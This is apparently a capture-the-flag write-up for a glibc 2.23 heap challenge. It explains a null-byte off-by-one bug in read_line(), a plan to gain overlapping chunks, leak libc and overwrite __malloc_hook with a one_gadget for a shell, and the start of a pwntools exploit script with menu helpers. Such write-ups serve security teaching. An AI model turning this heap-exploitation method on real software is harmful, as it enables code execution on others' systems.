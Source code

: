 > Flag : flag{703810818b509059eea4f913c0f9c507b58dc758a426b76713b02ff63501bb24}

## Vault: 
#### Tags: off by one - Null byte overflow - overlapping chunks - one_gadget
This is a classic heap challenge where our main goal consists to get an overlapping chunk then we overwrite one of the hooks with one_gadget and we get a shell.
Since we are provided with libc we can determine what are we dealing with .
``Libc-2.23`` uses fastbins as the first singly linked list so we can abuse it to get a shell.
##### PLAN : 
    1.Prepare The heap layout so we can get a leak and use after the leak. 
    2.Leak libc address.
    3.Compute necessary addressess.
    4.Overwrite __malloc_hook with one_gadget.
> 0. Bug hunting:

I am not going to explain what every function does i'm just going straight to the point where the bug occures.

``read_line() function:``
![](https://i.imgur.com/DW1ORFc.png)
We notice that it reads until it reachs the provided size value then it just appends a null byte in the end. the bug here if we fill a chunk we allocated we can corrupt the next chunk metadata in a way where we can use it in a variety of different ways.(A solution to these kind of bug in our situtation is to read until size - 1).
> 1. Preparing the heap : 

first we create so function helpers to make it more reliable.

```python=
#!/usr/bin/env python3
from pwn import *
import time
context.update(arch="amd64", os="linux", log_level="debug")

p = process("./main_patched")
elf = ELF('./main_patched')
libc = ELF("./libc-2.23.so")


def sl(choice): p.sendlineafter('> ',str(choice))
def alloc(idx,size,data):
    sl('1')
    p.sendlineafter(b'index: ',str(idx))
    p.sendlineafter(b'size: ',str(size))
    p.sendlineafter(b'Content:',data)
def free(idx):
    sl('3')
    p.sendlineafter(b'index: ',str(idx))
def edit(idx,data):
    sl('2')
    p.sendlineafter(b'index: ',str(idx))
    p.sendlineafter(b'Content: ',data)
def show(idx):
    sl('4')
    p.sendlineafter(b'index: ',str(idx))
```
